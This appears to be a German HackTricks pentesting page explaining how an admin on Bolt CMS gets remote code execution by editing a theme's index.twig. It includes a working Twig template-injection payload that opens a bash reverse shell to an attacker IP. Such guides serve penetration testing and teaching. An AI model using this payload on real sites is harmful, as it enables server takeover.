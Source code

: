 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Nach dem Login als Admin (gehen Sie zu /bot, um die Anmeldemaske zu erreichen), können Sie RCE in Bolt CMS erhalten:

- Wählen Sie `Configuration` -> `View Configuration` -> `Main Configuration` oder gehen Sie zum URL-Pfad `/bolt/file-edit/config?file=/bolt/config.yaml`
- Überprüfen Sie den Wert des Themas

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Wählen Sie `File management` -> `View & edit templates`
- Wählen Sie das im vorherigen Schritt gefundene Basis-Thema (`base-2021` in diesem Fall) und wählen Sie `index.twig`
- In meinem Fall befindet sich dies im URL-Pfad /bolt/file-edit/themes?file=/base-2021/index.twig
- Setzen Sie Ihr Payload in diese Datei über [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php), wie: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- Und speichern Sie die Änderungen

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Leeren Sie den Cache in `Maintenance` -> `Clear the cache`
- Greifen Sie erneut als regulärer Benutzer auf die Seite zu, und das Payload sollte ausgeführt werden

{{#include ../../banners/hacktricks-training.md}}
